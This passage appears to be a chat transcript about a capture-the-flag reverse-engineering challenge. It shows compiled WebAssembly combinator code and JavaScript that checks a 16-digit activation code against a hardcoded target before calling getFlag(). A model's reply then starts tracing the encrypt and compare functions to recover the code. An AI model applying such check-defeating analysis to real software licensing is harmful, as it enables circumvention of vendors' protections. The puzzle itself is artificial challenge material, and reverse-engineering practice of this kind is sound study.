    struct.get $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
  )
  (func $username/ActivateIt.sub_401221|<<Int*Int>*<Int*Int>>| (;61;) (param $c/572 (;0;) (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $*func/571 (ref $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    local.get $c/572
    call $username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|
    local.set $*func/571
    local.get $*func/571
    local.get $c/572
    local.get $*func/571
    struct.get $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> $field0
    call_ref $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig
  )
  (func $username/ActivateIt.sub_401221|Int| (;62;) (param $c/570 (;0;) (ref $<<Int>=>Int>=><Int>=>Int)) (result (ref $<<Int>=>Int>=><Int>=>Int))
    (local $*func/569 (ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int))
    local.get $c/570
    call $username/ActivateIt.sub_401116|Int|
    local.set $*func/569
    local.get $*func/569
    local.get $c/570
    local.get $*func/569
    struct.get $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int $field0
    call_ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig
  )
  (func $username/ActivateIt.sub_401116|Int| (;63;) (param $m/567 (;0;) (ref $<<Int>=>Int>=><Int>=>Int)) (result (ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int))
    ref.func $$username/ActivateIt.sub_401116|Int|.fn/22
    local.get $m/567
    struct.new $$username/ActivateIt.sub_401116|Int|.fn/22-cap
  )
  (func $$username/ActivateIt.sub_401116|Int|.fn/22 (;64;) (param $*env/714 (;0;) (ref $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int)) (param $n/563 (;1;) (ref $<<Int>=>Int>=><Int>=>Int)) (result (ref $<<Int>=>Int>=><Int>=>Int))
    (local $m/567 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $*casted_env/715 (ref $$username/ActivateIt.sub_401116|Int|.fn/22-cap))
    local.get $*env/714
    ref.cast $$username/ActivateIt.sub_401116|Int|.fn/22-cap
    local.tee $*casted_env/715
    struct.get $$username/ActivateIt.sub_401116|Int|.fn/22-cap $field1
    ref.as_non_null
    local.set $m/567
    ref.func $$username/ActivateIt.sub_401116|Int|.fn/23
    local.get $m/567
    local.get $n/563
    struct.new $$username/ActivateIt.sub_401116|Int|.fn/23-cap
  )
  (func $$username/ActivateIt.sub_401116|Int|.fn/23 (;65;) (param $*env/716 (;0;) (ref $<<Int>=>Int>=><Int>=>Int)) (param $f/564 (;1;) (ref $<Int>=>Int)) (result (ref $<Int>=>Int))
    (local $n/563 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $m/567 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $*casted_env/717 (ref $$username/ActivateIt.sub_401116|Int|.fn/23-cap))
    local.get $*env/716
    ref.cast $$username/ActivateIt.sub_401116|Int|.fn/23-cap
    local.tee $*casted_env/717
    struct.get $$username/ActivateIt.sub_401116|Int|.fn/23-cap $field2
    ref.as_non_null
    local.set $n/563
    local.get $*casted_env/717
    struct.get $$username/ActivateIt.sub_401116|Int|.fn/23-cap $field1
    ref.as_non_null
    local.set $m/567
    ref.func $$username/ActivateIt.sub_401116|Int|.fn/24
    local.get $m/567
    local.get $f/564
    local.get $n/563
    struct.new $$username/ActivateIt.sub_401116|Int|.fn/24-cap
  )
  (func $$username/ActivateIt.sub_401116|Int|.fn/24 (;66;) (param $*env/718 (;0;) (ref $<Int>=>Int)) (param $x/565 (;1;) i32) (result i32)
    (local $n/563 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $f/564 (ref $<Int>=>Int))
    (local $*func/566 (ref $<Int>=>Int))
    (local $m/567 (ref $<<Int>=>Int>=><Int>=>Int))
    (local $*func/568 (ref $<Int>=>Int))
    (local $*casted_env/719 (ref $$username/ActivateIt.sub_401116|Int|.fn/24-cap))
    local.get $*env/718
    ref.cast $$username/ActivateIt.sub_401116|Int|.fn/24-cap
    local.tee $*casted_env/719
    struct.get $$username/ActivateIt.sub_401116|Int|.fn/24-cap $field3
    ref.as_non_null
    local.set $n/563
    local.get $*casted_env/719
    struct.get $$username/ActivateIt.sub_401116|Int|.fn/24-cap $field2
    ref.as_non_null
    local.set $f/564
    local.get $*casted_env/719
    struct.get $$username/ActivateIt.sub_401116|Int|.fn/24-cap $field1
    ref.as_non_null
    local.set $m/567
    local.get $m/567
    local.get $f/564
    local.get $m/567
    struct.get $<<Int>=>Int>=><Int>=>Int $field0
    call_ref $<<Int>=>Int>=><Int>=>Int-sig
    local.set $*func/566
    local.get $*func/566
    local.get $n/563
    local.get $f/564
    local.get $n/563
    struct.get $<<Int>=>Int>=><Int>=>Int $field0
    call_ref $<<Int>=>Int>=><Int>=>Int-sig
    local.set $*func/568
    local.get $*func/568
    local.get $x/565
    local.get $*func/568
    struct.get $<Int>=>Int $field0
    call_ref $<Int>=>Int-sig
    local.get $*func/566
    struct.get $<Int>=>Int $field0
    call_ref $<Int>=>Int-sig
  )
  (func $username/ActivateIt.sub_401116|<Int*Int>| (;67;) (param $m/561 (;0;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    ref.func $$username/ActivateIt.sub_401116|<Int*Int>|.fn/19
    local.get $m/561
    struct.new $$username/ActivateIt.sub_401116|<Int*Int>|.fn/19-cap
  )
  (func $$username/ActivateIt.sub_401116|<Int*Int>|.fn/19 (;68;) (param $*env/708 (;0;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $n/557 (;1;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $m/561 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*casted_env/709 (ref $$username/ActivateIt.sub_401116|<Int*Int>|.fn/19-cap))
    local.get $*env/708
    ref.cast $$username/ActivateIt.sub_401116|<Int*Int>|.fn/19-cap
    local.tee $*casted_env/709
    struct.get $$username/ActivateIt.sub_401116|<Int*Int>|.fn/19-cap $field1
    ref.as_non_null
    local.set $m/561
    ref.func $$username/ActivateIt.sub_401116|<Int*Int>|.fn/20
    local.get $m/561
    local.get $n/557
    struct.new $$username/ActivateIt.sub_401116|<Int*Int>|.fn/20-cap
  )
  (func $$username/ActivateIt.sub_401116|<Int*Int>|.fn/20 (;69;) (param $*env/710 (;0;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $f/558 (;1;) (ref $<<Int*Int>>=><Int*Int>)) (result (ref $<<Int*Int>>=><Int*Int>))
    (local $n/557 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $m/561 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*casted_env/711 (ref $$username/ActivateIt.sub_401116|<Int*Int>|.fn/20-cap))
    local.get $*env/710
    ref.cast $$username/ActivateIt.sub_401116|<Int*Int>|.fn/20-cap
    local.tee $*casted_env/711
    struct.get $$username/ActivateIt.sub_401116|<Int*Int>|.fn/20-cap $field2
    ref.as_non_null
    local.set $n/557
    local.get $*casted_env/711
    struct.get $$username/ActivateIt.sub_401116|<Int*Int>|.fn/20-cap $field1
    ref.as_non_null
    local.set $m/561
    ref.func $$username/ActivateIt.sub_401116|<Int*Int>|.fn/21
    local.get $m/561
    local.get $f/558
    local.get $n/557
    struct.new $$username/ActivateIt.sub_401116|<Int*Int>|.fn/21-cap
  )
  (func $$username/ActivateIt.sub_401116|<Int*Int>|.fn/21 (;70;) (param $*env/712 (;0;) (ref $<<Int*Int>>=><Int*Int>)) (param $x/559 (;1;) (ref $<Int*Int>)) (result (ref $<Int*Int>))
    (local $n/557 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $f/558 (ref $<<Int*Int>>=><Int*Int>))
    (local $*func/560 (ref $<<Int*Int>>=><Int*Int>))
    (local $m/561 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*func/562 (ref $<<Int*Int>>=><Int*Int>))
    (local $*casted_env/713 (ref $$username/ActivateIt.sub_401116|<Int*Int>|.fn/21-cap))
    local.get $*env/712
    ref.cast $$username/ActivateIt.sub_401116|<Int*Int>|.fn/21-cap
    local.tee $*casted_env/713
    struct.get $$username/ActivateIt.sub_401116|<Int*Int>|.fn/21-cap $field3
    ref.as_non_null
    local.set $n/557
    local.get $*casted_env/713
    struct.get $$username/ActivateIt.sub_401116|<Int*Int>|.fn/21-cap $field2
    ref.as_non_null
    local.set $f/558
    local.get $*casted_env/713
    struct.get $$username/ActivateIt.sub_401116|<Int*Int>|.fn/21-cap $field1
    ref.as_non_null
    local.set $m/561
    local.get $m/561
    local.get $f/558
    local.get $m/561
    struct.get $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
    local.set $*func/560
    local.get $*func/560
    local.get $n/557
    local.get $f/558
    local.get $n/557
    struct.get $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
    local.set $*func/562
    local.get $*func/562
    local.get $x/559
    local.get $*func/562
    struct.get $<<Int*Int>>=><Int*Int> $field0
    call_ref $<<Int*Int>>=><Int*Int>-sig
    local.get $*func/560
    struct.get $<<Int*Int>>=><Int*Int> $field0
    call_ref $<<Int*Int>>=><Int*Int>-sig
  )
  (func $username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>| (;71;) (param $m/555 (;0;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    ref.func $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/16
    local.get $m/555
    struct.new $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/16-cap
  )
  (func $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/16 (;72;) (param $*env/702 (;0;) (ref $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $n/551 (;1;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $m/555 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*casted_env/703 (ref $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/16-cap))
    local.get $*env/702
    ref.cast $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/16-cap
    local.tee $*casted_env/703
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/16-cap $field1
    ref.as_non_null
    local.set $m/555
    ref.func $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/17
    local.get $m/555
    local.get $n/551
    struct.new $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/17-cap
  )
  (func $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/17 (;73;) (param $*env/704 (;0;) (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $f/552 (;1;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (result (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $n/551 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $m/555 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*casted_env/705 (ref $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/17-cap))
    local.get $*env/704
    ref.cast $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/17-cap
    local.tee $*casted_env/705
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/17-cap $field2
    ref.as_non_null
    local.set $n/551
    local.get $*casted_env/705
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/17-cap $field1
    ref.as_non_null
    local.set $m/555
    ref.func $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/18
    local.get $m/555
    local.get $f/552
    local.get $n/551
    struct.new $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/18-cap
  )
  (func $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/18 (;74;) (param $*env/706 (;0;) (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (param $x/553 (;1;) (ref $<<Int*Int>>=><Int*Int>)) (result (ref $<<Int*Int>>=><Int*Int>))
    (local $n/551 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $f/552 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*func/554 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $m/555 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*func/556 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
    (local $*casted_env/707 (ref $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/18-cap))
    local.get $*env/706
    ref.cast $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/18-cap
    local.tee $*casted_env/707
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/18-cap $field3
    ref.as_non_null
    local.set $n/551
    local.get $*casted_env/707
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/18-cap $field2
    ref.as_non_null
    local.set $f/552
    local.get $*casted_env/707
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/18-cap $field1
    ref.as_non_null
    local.set $m/555
    local.get $m/555
    local.get $f/552
    local.get $m/555
    struct.get $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
    local.set $*func/554
    local.get $*func/554
    local.get $n/551
    local.get $f/552
    local.get $n/551
    struct.get $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
    local.set $*func/556
    local.get $*func/556
    local.get $x/553
    local.get $*func/556
    struct.get $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
    local.get $*func/554
    struct.get $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> $field0
    call_ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig
  )
  (func $username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>| (;75;) (param $m/549 (;0;) (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    ref.func $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/13
    local.get $m/549
    struct.new $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/13-cap
  )
  (func $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/13 (;76;) (param $*env/696 (;0;) (ref $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (param $n/545 (;1;) (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $m/549 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $*casted_env/697 (ref $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/13-cap))
    local.get $*env/696
    ref.cast $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/13-cap
    local.tee $*casted_env/697
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/13-cap $field1
    ref.as_non_null
    local.set $m/549
    ref.func $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/14
    local.get $m/549
    local.get $n/545
    struct.new $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/14-cap
  )
  (func $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/14 (;77;) (param $*env/698 (;0;) (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (param $f/546 (;1;) (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (result (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $n/545 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $m/549 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $*casted_env/699 (ref $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/14-cap))
    local.get $*env/698
    ref.cast $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/14-cap
    local.tee $*casted_env/699
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/14-cap $field2
    ref.as_non_null
    local.set $n/545
    local.get $*casted_env/699
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/14-cap $field1
    ref.as_non_null
    local.set $m/549
    ref.func $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/15
    local.get $m/549
    local.get $f/546
    local.get $n/545
    struct.new $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/15-cap
  )
  (func $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/15 (;78;) (param $*env/700 (;0;) (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (param $x/547 (;1;) (ref $<<Int*Int>*<Int*Int>>)) (result (ref $<<Int*Int>*<Int*Int>>))
    (local $n/545 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $f/546 (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $*func/548 (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $m/549 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $*func/550 (ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
    (local $*casted_env/701 (ref $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/15-cap))
    local.get $*env/700
    ref.cast $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/15-cap
    local.tee $*casted_env/701
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/15-cap $field3
    ref.as_non_null
    local.set $n/545
    local.get $*casted_env/701
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/15-cap $field2
    ref.as_non_null
    local.set $f/546
    local.get $*casted_env/701
    struct.get $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/15-cap $field1
    ref.as_non_null
    local.set $m/549
    local.get $m/549
    local.get $f/546
    local.get $m/549
    struct.get $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> $field0
    call_ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig
    local.set $*func/548
    local.get $*func/548
    local.get $n/545
    local.get $f/546
    local.get $n/545
    struct.get $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> $field0
    call_ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig
    local.set $*func/550
    local.get $*func/550
    local.get $x/547
    local.get $*func/550
    struct.get $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> $field0
    call_ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig
    local.get $*func/548
    struct.get $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> $field0
    call_ref $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig
  )
  (func $username/ActivateIt.sub_401011 (;79;) (param $c/543 (;0;) (ref $<<Int>=>Int>=><Int>=>Int)) (result i32)
    (local $*func/542 (ref $<Int>=>Int))
    local.get $c/543
    ref.func $$username/ActivateIt.sub_401011.fn/12
    struct.new $<Int>=>Int
    local.get $c/543
    struct.get $<<Int>=>Int>=><Int>=>Int $field0
    call_ref $<<Int>=>Int>=><Int>=>Int-sig
    local.set $*func/542
    local.get $*func/542
    i32.const 0
    local.get $*func/542
    struct.get $<Int>=>Int $field0
    call_ref $<Int>=>Int-sig
  )
  (func $$username/ActivateIt.sub_401011.fn/12 (;80;) (param $*env/695 (;0;) (ref $<Int>=>Int)) (param $x/544 (;1;) i32) (result i32)
    local.get $x/544
    i32.const 1
    i32.add
  )
...
```

</details>

Here is the calling code.

```js
WebAssembly.instantiateStreaming(fetch('ActivateIt.gc.wasm'), {}).then(obj => {
    const wasmInstance = obj.instance;
    target = [141, 63, 247, 10, 173, 52, 28, 104, 228, 82, 101, 159, 217, 121, 242, 34, 101, 24, 67, 15, 39, 20, 95, 59, 239, 72, 17, 19, 19, 3, 175, 1]
    if (!wasmInstance) {
        console.error("wasm not instantiated");
        return;
    }
    const activationCode = Array
        .from(document.querySelectorAll('.digit-input'))
        .map(x => x.value)
        .map(x => parseInt(x)) // activationCode.length is 16
    for (let i = 0; i < activationCode.length; ++i) {
        if (!(0 <= activationCode[0] <= 9)) {
            return;
        }
        wasmInstance.exports.add_input(activationCode[i])
    }
    for (let i = 0; i < target.length; ++i) {
        wasmInstance.exports.add_target(target[i])
    }
    if (wasmInstance.exports.compare() == 1) {
        document.getElementById('result').innerText = 'Activate success!'
        getFlag()
    } else {
        document.getElementById('result').innerText = 'Activate failed, check your activation code'
    }
});
```

**Model**: [æ€è€ƒ] Okay, let's break down the WASM code and the surrounding JavaScript to figure out how to find the activation code.

**1. Understanding the Goal**

The JavaScript code takes a 16-digit activation code from the user, passes each digit to the WASM function `add_input`. It also loads a hardcoded 32-byte `target` array into WASM using `add_target`. Finally, it calls the WASM function `compare`. If `compare` returns 1, the activation code is correct.

**2. Analyzing `compare`**

```wasm
(func $username/ActivateIt.compare (;11;) (export "compare") (result i32)
  global.get $username/ActivateIt.input  ;; Get the input array (16 digits)
  ref.as_non_null
  call $username/ActivateIt.encrypt      ;; Call the main encryption function
  ;; Let's call the result 'encrypted_input'
  global.get $username/ActivateIt.target ;; Get the target array (32 bytes)
  ref.as_non_null
  ;; Compare encrypted_input with target using built-in array equality
  call $@moonbitlang/core/builtin.Eq::@moonbitlang/core/builtin.Array::op_equal|Int|
)
```

The `compare` function encrypts the 16-digit input array using `$username/ActivateIt.encrypt` and compares the result with the 32-byte target array. For the comparison to succeed, the output of `encrypt` must be an array of 32 integers identical to the `target` array.

**3. Analyzing `encrypt`**

This function is the core logic. Let's trace its key steps and how array lengths change:

*   **Input:** Takes `s`, an `Array<Int>` of length 16 (the activation code digits). `n = 16`.
*   **PRNG Setup:** Calculates a `seed` by hashing *constant data* using SM3. Creates a random number generator `r` from this *fixed* seed. This means the random sequence generated by `r` will always be the same.
*   **Constant Arrays `a`, `b`:** Creates two arrays `a` and `b`, each of length 16. Their elements are complex function objects generated using the fixed-seed PRNG `r` (`fn/51`, `fn/50`). These arrays `a` and `b`, and their subsequent modifications/shuffling, are therefore *constant* and independent of the input `s`.
*   **Input Transformation (`s` -> `c`):** The input array `s` is mapped through a series of complex, high-order function compositions (`sub_401641`, `sub_401536`, `sub_401554`, `sub_401031`, etc.). This results in an array `c` of length 16, where each element `c[i]` depends only on the corresponding input `s[i]`. The functions involved seem related to functional programming combinators (like B, C, I) and exponentiation by squaring (`sub_401641`), likely operating on function representations.
